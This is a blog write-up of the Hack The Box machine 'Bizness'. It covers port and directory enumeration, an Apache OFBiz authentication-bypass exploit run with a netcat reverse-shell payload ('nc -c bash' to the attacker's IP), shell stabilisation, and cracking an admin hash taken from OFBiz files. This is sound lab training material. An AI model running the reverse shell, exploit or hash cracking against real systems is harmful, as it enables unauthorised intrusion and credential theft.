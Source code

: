 ```yaml
---
title: 'HTB Bizness Writeup'
date: 2024-05-08
permalink: /posts/2024/05/HTB-Bizness-Writeup/
tags:
  - HTB
  - writeup
  - easy
---
```


A writeup of the Hack The Box machine "Bizness" with easy difficulty

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 204113.png'> 

**Welcome to this writeup of the Bizness HackTheBox machine to help you pwn and follow my thoughts.**

Enumeration
======
First, I check the open ports with `Nmap –sV –sC 10.10.11.252`

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 222656.png'> 

Port 22, 80 and 443 are open. Port 80 is a running a webserver named bizness.htb

I have to add this url to the 10.10.11.252 IP in the /etc/hosts file > 10.10.11.252 bizness.htb 
Or with 1 command> `echo "10.10.11.252   bizness.htb" | sudo tee -a /etc/hosts`

Now we can access the webpage after we accepted the self-signed certificate risk warning.

There seems to be no clue on the webpage itself apart from that the site is powered by Apache OFBiz. We we dive deeper into this later. 

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 222924.png'>

There are also input fields. Send a message to contact or subscribe to their newsletter. 

First I am going to see if what url directories there are >  

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223114.png'>

There seems to be no other directories found by gobuster. 

I tried dirsearch next > `dirsearch -u https://bizness.htb`

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223240.png'>

The /control/login directory appears here. It’s the Apache OFBiz login page! 

User flag
======
After searching the internet, I found this exploit: https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass  

Clone the repository and go to the newly downloaded folder > 

Run the command > `python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.89 1234'`

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223438.png'>

But before you run the command. Setup a Netcat listener on port 1234 > Now I was able to get RCE >

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223546.png'>

We can obtain the user flag now >

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 223738.png'>

Root flag
======
First, stabilize the shell with the following commands > 

<pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press Ctrl+z 
stty raw -echo; fg
export TERM=xterm
</pre>

Somewhere in the file system is a hash to be found but where..... 

In the /opt/ofbiz/framework/resources/templates directory is a file called AdminUserLoginData.xml where a hash can be found > 

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 224934.png'>

In another file is a salted hash to be found > 

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 225044.png'>

I tried to crack the hash with john but not successful. 

Then I found a tool called: Apache-OFBiz-SHA1-Cracker. > https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker?source=post_page-----b5bed59a7598--------------------------------  

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 225256.png'>

With the password cracked we can login to the root user to obtain the root.txt flag.

<img src='/images/HTB_Bizness/Screenshot 2024-05-29 225426.png'>

User flag
======
Finding the hash in a file is definitely the hardest part, as there are so many files on the system. 

Thank you for reading! I hope you found it useful :) 

Happy Hacking! 